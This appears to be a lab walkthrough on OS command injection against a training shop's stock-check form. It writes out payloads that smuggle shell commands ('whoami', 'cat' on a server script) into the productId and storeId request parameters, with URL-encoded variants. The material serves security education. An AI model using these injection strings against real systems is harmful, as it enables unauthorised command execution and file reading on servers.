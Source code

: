 
### OS command injection, simple case : APPRENTICE

---

With BURPSUITE PROXY HTTP history tab open, go to a product and check its stock.

![product](./screenshots/product.png)

![stock](./screenshots/stock.png)

Capture the `POST` request that is sent when the `Check Stock` button is sent.

![get-req](./screenshots/get-req.png)

> For OS command injections, we check both parameters to see if they are vulnerable.

Testing `productId`, we add any of the shell operators: `&`, `&&`, `|`, `||`, and then the `whoami` command.


Trying the `&` character.
```
productId=1 & whoami &storeId=1
```
- The first `&` is the character we added, the second `&` indicates the second parameter storeId.

![wrong](./screenshots/wrong.png)

Didn't work, trying to URL encode the payload instead.
```
productId=1+%26+whoami+&storeId=1
```

![script](./screenshots/script.png)

> We see that the `whoami` command was read, and that there is a possibility of our command being executed as a shell command. Moreover, a script `/home/peter-LWQxu9/stockreport.sh` is output, which we can use in our attack.


Trying the second variable `storeId`.
```
productId=1&storeId=1 & whoami
```

Doesn't work, so trying to URL encode it.
```
productId=1&storeId=1+%26+whoami
```

![&whoami](./screenshots/whoami&.png)

> It works, the `whoami` command result is output.

Trying the other operators:
```
productId=1&storeId=1 || whoami
```

![whoami](./screenshots/whoami.png)


Now that we know this is vulnerable to command injection, we can try reading the script using `cat`.
```
productId=1&storeId=1 || cat /home/peter-LWQxu9/stockreport.sh
```

![script-res](./screenshots/script-res.png)

This takes 2 variables, `storeId` and `productId`, and this is where we injected.

> This is why when we injected in the first variable, it said `$2` was missing, because our injection was in `$1` and skipped or bypassed the second variable.

---
